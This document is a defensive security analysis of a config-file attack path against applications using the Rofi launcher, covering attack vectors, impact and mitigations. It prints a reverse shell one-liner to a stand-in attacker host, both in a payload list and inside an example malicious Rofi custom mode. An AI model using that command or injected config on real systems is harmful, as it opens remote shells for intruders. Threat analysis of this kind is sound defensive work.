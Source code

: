## Deep Analysis: Modify Config File (Insufficient Permissions) - HIGH RISK

This analysis delves into the "Modify Config File (Insufficient Permissions)" attack path within the context of an application utilizing the Rofi launcher. We will break down the attack, its potential impact, and provide concrete recommendations for mitigation.

**1. Understanding the Attack Path:**

This attack path exploits a fundamental security principle: **least privilege**. The core issue is that the application, during its operation, either creates or uses Rofi configuration files with permissions that are too permissive. This allows users beyond the intended owner (typically the user running the application) to modify these files.

**Breakdown of the Attack:**

* **Vulnerability:**  Insufficient file permissions on Rofi configuration files. This means the files have write permissions granted to users or groups that should not have them.
* **Attacker Goal:** To execute arbitrary commands within the context of the user running the application that utilizes Rofi.
* **Attack Vector:** Gaining write access to the vulnerable configuration file. This could happen through various means:
    * **Default Insecure Permissions:** The application itself might be creating the configuration file with overly permissive settings (e.g., world-writable).
    * **Incorrect Installation/Configuration:** The user or an automated script might have inadvertently set incorrect permissions during installation or configuration.
    * **Exploiting Other Vulnerabilities:** An attacker might gain access to the system through a different vulnerability and then leverage that access to modify the configuration file.
    * **Social Engineering:** Tricking the user into changing the file permissions themselves.
* **Attacker Action:** Once write access is obtained, the attacker modifies the Rofi configuration file to inject malicious commands. This can be achieved through various Rofi features:
    * **Custom Modes:** Rofi allows defining custom modes, which are essentially scripts or commands executed when a specific keyword is typed. An attacker could add a custom mode that executes a reverse shell or downloads and runs malicious code.
    * **Scripts in Configuration:**  Certain Rofi configurations might directly reference scripts or commands. The attacker could modify these references to point to their malicious scripts.
    * **Manipulating Existing Modes:**  Even without adding new modes, an attacker might be able to subtly alter the behavior of existing modes by modifying their associated commands.
    * **Environment Variables:**  Depending on how the application invokes Rofi, the attacker might be able to inject malicious values into environment variables that Rofi uses.

**2. Technical Deep Dive:**

Let's examine the technical aspects of how this attack can be executed:

* **Rofi Configuration Files:** Rofi typically uses configuration files located in `~/.config/rofi/config` or potentially other locations depending on the application's configuration or command-line arguments.
* **Permissions:**  Standard secure permissions for these configuration files should be `rw-------` (read/write for the owner, no permissions for others) or `rw-r-----` (read/write for the owner, read for the group, no permissions for others), depending on the application's needs and user management.
* **Malicious Payloads:** The attacker can inject various malicious payloads:
    * **Reverse Shell:**  A command that connects back to the attacker's machine, giving them remote access. Example: `bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1`
    * **Data Exfiltration:** Commands to copy sensitive data to an attacker-controlled location.
    * **System Manipulation:** Commands to modify system settings, install backdoors, or disrupt services.
    * **Denial of Service:** Commands that consume system resources, making the application or system unusable.

**Example Scenario:**

Imagine an application that uses Rofi to present a custom menu for system actions. The application creates `~/.config/rofi/config` with world-writable permissions. An attacker gains access to the system (through a separate vulnerability or social engineering). They then modify the `config` file, adding a custom mode:

```
configuration {
  modi: "run,drun,ssh,custom";
  // ... other configurations
}
@theme "/path/to/a/theme"

*custom {
    display-combi: "Custom Actions";
    combi-modi: "c:";
    command: "bash -c '{echo \"Malicious action triggered\"; /bin/bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1; }'";
}
```

Now, when the user running the application invokes Rofi and types "c:", the malicious command will be executed with the user's privileges.

**3. Impact Assessment (HIGH RISK):**

The "HIGH RISK" designation is justified due to the potential for significant impact:

* **Arbitrary Code Execution:** The attacker can execute any command with the privileges of the user running the application. This is the most severe consequence.
* **Data Breach:** The attacker can potentially access and exfiltrate sensitive data accessible to the user.
* **System Compromise:** The attacker can install backdoors, escalate privileges (if the application runs with elevated privileges), and gain persistent access to the system.
* **Loss of Confidentiality, Integrity, and Availability:** The attacker can compromise the confidentiality of data, manipulate system integrity, and disrupt the availability of the application and potentially the entire system.
* **Reputational Damage:** A successful attack can severely damage the reputation of the application and the development team.

**4. Mitigation Strategies:**

Preventing this attack requires a multi-faceted approach:

* **Secure File Permissions:**
    * **Principle of Least Privilege:** Ensure Rofi configuration files are created with the most restrictive permissions necessary. Typically, this means `rw-------` (owner read/write) or `rw-r-----` (owner read/write, group read) depending on the application's needs.
    * **Application Responsibility:** The application itself should be responsible for creating and managing the permissions of these files.
    * **Verification:**  Implement checks within the application to verify the permissions of the configuration files before using them. Alert or fail gracefully if permissions are incorrect.
* **Input Validation and Sanitization (Defense in Depth):**
    * Even with secure permissions, consider if the application parses and uses the configuration file content in a way that could be exploited.
    * If the application directly uses values from the config file in commands, ensure proper sanitization to prevent command injection.
* **Security Audits and Code Reviews:**
    * Regularly review the codebase to identify areas where file permissions are handled.
    * Conduct security audits to identify potential vulnerabilities related to file handling.
* **Principle of Least Privilege (Application Level):**
    * Run the application with the minimum necessary privileges. Avoid running it as root unless absolutely required.
* **User Education:**
    * Educate users about the importance of file permissions and the risks of modifying configuration files from untrusted sources.
* **Consider Alternative Configuration Methods:**
    * If possible, explore alternative ways to configure Rofi that don't rely on modifiable files, such as passing configurations directly through command-line arguments or environment variables (if appropriate and secure).
* **Regular Updates and Patching:**
    * Keep the application and its dependencies (including Rofi) up-to-date with the latest security patches.

**5. Specific Considerations for Rofi:**

* **Rofi's Flexibility:** Rofi's powerful customization options, while beneficial, also increase the attack surface if not managed securely. Be mindful of the potential for malicious code injection through custom modes and scripts.
* **Theme Files:** While the primary focus is the `config` file, be aware that Rofi also uses theme files. Ensure the application doesn't rely on theme files from untrusted sources or with insecure permissions.
* **Command Execution:**  Understand how the application invokes Rofi and if it passes any user-controlled data that could be exploited in conjunction with a modified configuration file.

**6. Conclusion:**

The "Modify Config File (Insufficient Permissions)" attack path is a significant security risk for applications using Rofi. By ensuring strict file permissions on Rofi configuration files and implementing other defensive measures, developers can effectively mitigate this threat. A proactive approach to security, including regular audits and code reviews, is crucial to prevent this type of vulnerability from being exploited. Remember that security is a continuous process, and vigilance is key to protecting your application and its users.

